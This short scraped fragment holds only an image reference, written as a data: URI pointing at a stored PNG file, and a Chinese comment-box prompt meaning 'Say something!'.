
说些什么吧！